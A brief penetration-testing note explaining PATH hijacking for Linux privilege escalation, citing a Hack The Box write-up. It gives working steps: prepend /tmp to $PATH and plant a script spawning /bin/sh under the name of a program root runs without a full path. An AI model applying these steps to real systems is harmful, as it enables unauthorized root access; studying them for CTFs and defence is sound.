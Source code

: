 Path hijacking within privilege escalation refers to the manipulation of file paths or environment variables to trick a system into executing malicious code or commands with elevated privileges. This technique is commonly used by attackers to gain unauthorized access to sensitive data or carry out malicious activities on a compromised system. 
By manipulating the path that the system uses to locate executable files, an attacker can redirect the system to run their own malicious code instead of the intended legitimate program. This allows the attacker to escalate their privileges and potentially gain full control over the system.

# Guide

If an application is being run, as root, without a full path being used, see [HTB: Lazy | 0xdf hacks stuff](https://0xdf.gitlab.io/2020/07/29/htb-lazy.html#priv-mitsos--root)

1. By default, `$PATH`

```
echo $PATH
```

2. Change the path

```
PATH=/tmp:$PATH
```

3. Place your own executable within the path location under the application name which is known to be executed, e.g.

```
#!/bin/sh 

/bin/sh
```

